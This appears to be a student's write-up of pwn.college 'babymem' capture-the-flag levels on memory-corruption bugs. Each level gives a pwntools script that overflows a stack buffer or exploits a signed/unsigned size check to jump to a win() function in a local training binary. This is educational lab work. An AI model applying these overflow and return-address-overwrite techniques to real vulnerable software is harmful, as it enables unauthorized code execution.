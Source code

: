 # Pwn Babymem

## Useful stuff
```sh
# remote login
ssh -i key hacker@"www.your dojo.com"
# copy challenge to your host
scp -i key hacker@"www.your dojo.com":/challenge/* .
```
[Binary Ninja](https://cloud.binary.ninja/)

[Pwn college Memory Error Lecture](https://www.youtube.com/watch?v=hUUcsFPeH9w&t=5236s)

## 1.0 - 1.1
```py
from pwn import *                       
                                        
padding = b'A' * 176                    
payload = padding + p64(0x2dbba028)     
                                        
p = process('/challenge/babymem_level1.0')         
p.recvuntil('size:')                    
p.sendline('120')                       
                                       
p.recvuntil('bytes)!')                  
p.send(payload)                         
p.interactive() 
```

## 2.0 2.1
```py
from pwn import *                       
                                        
padding = b'A' * 528                    
payload = padding + p64(0xdeadbeef)     
                                        
p = process('/challenge/babymem_level2.0')         
p.recvuntil('size:')                    
p.sendline('530')                       
                                       
p.recvuntil('bytes)!')                  
p.send(payload)                         
p.interactive() 
```
Task: You can make this variable be non-zero by overflowing the input buffer.
The "win" variable is stored at 0x55c46aa5e8c0, 528 bytes after the start of your input buffer.

## 3.0 
```py
from pwn import *                       
                                        
padding = b'A' * 104                   
payload = padding + p64(0x4018d1) # win address
                                        
p = process('/challenge/babymem_level3.0')         
p.recvuntil('size:')                    
p.sendline('120')                       
                                       
p.recvuntil('bytes)!')                  
p.send(payload)                         
p.interactive() 
```
Task:
You will need to force the program to execute the win() function
by directly overflowing into the stored return address back to main,
which is stored at 0x7ffe6e8fec28, 104 bytes after the start of your input buffer.
That means that you will need to input at least 112 bytes (73 to fill the buffer,
31 to fill other stuff stored between the buffer and the return address,
and 8 that will overwrite the return address).

## 3.1
used gdb to locate buffer size from `challange` and `win` address

## 4.0
Task: In this level, there is no "win" variable.
You will need to force the program to execute the win() function
by directly overflowing into the stored return address back to main,
which is stored at 0x7ffe4e15aa08, 88 bytes after the start of your input buffer.
That means that you will need to input at least 96 bytes (66 to fill the buffer,
22 to fill other stuff stored between the buffer and the return address,
and 8 that will overwrite the return address).

```py
from pwn import *                       
                                        
padding = b'A' * 88                   
payload = padding + p64(0x401818)     
                                        
p = process('/challenge/babymem_level4.0')         
p.recvuntil('size:')                    
p.sendline('-66')  #jns jump if not signed (positive)                       
                                       
p.recvuntil('bytes)!')                  
p.send(payload)                         
p.interactive() 
```

## 4.1 
search jump address to `win`

## 5.0
You will want to overwrite the return value from challenge()
(located at 0x7ffd1d851b88, 88 bytes past the start of the input buffer)
with 0x401ace, which is the address of the win() function.
This will cause challenge() to return directly into the win() function,
which will in turn give you the flag.
Keep in mind that you will need to write the address of the win() function
in little-endian (bytes backwards) so that it is interpreted properly.

NOTE: unsigned vs signed ints

```py
from pwn import *                       
                                        
padding = b'A' * 88  # find it with gdb on ret challenge               
payload = padding + p64(0x401ace)    

p = process('/challenge/babymem_level5.0')         
p.recvuntil('records to send:')    
num = int("0x80000000",0)     
tosend = f'{str(num)}\n'           
p.sendline(tosend.encode())                       
                                       
p.recvuntil('payload record:')     
p.send('2\n') 

    
p.send(payload)                         
p.interactive() 

```

## 6.0 - 6.1
Task: search `win_a...` function address using gdb `info func`, find `print` address and jump to it 

## 7.0
Task:Overwriting the entire return address is fine when we know
the whole address, but here, we only really know the last three nibbles.
These nibbles never change, because pages are aligned to 0x1000.
This gives us a workaround: we can overwrite the least significant byte
of the saved return address, which we can know from debugging the binary,
to retarget the return to main to any instruction that shares the other 7 bytes.
Since that last byte will be constant between executions (due to page alignment),
this will always work.

Note: try until the number you put pops out
```py
from pwn import *                       
                                        
padding = b'B' * 136            
payload = padding + b"\x90\x24"    #\x90 = +28

p = process('/challenge/babymem_level7.0')         
p.read()
p.sendline('144')
p.send(payload)                         
p.interactive() 
```
## 7.1 
find `win_a...` address and buffer size, try until flag pops out
Magic number = 2147483648

## 8.0
Task:
So how do you pass the check? There *is* a way, and we will cover it later,
but for now, we will simply bypass it! You can overwrite the return address
with *any* value (as long as it points to executable code), not just the start
of functions. Let's overwrite past the token check in win!

Like 7.0 but but bypass unsigned comparison 

```py

from pwn import *                       
                                        
padding = b'B' * 45            
payload = padding + b"\x00"+b'A'*42 + b"\x10\xBA"    

p = process('/challenge/babymem_level8.0')         
p.read()
p.sendline('2147483648')
p.send(payload)                         
p.interactive() 
```
hint: man strlen

## 8.1 
Note: find buffer size and win_a.. address and play with it

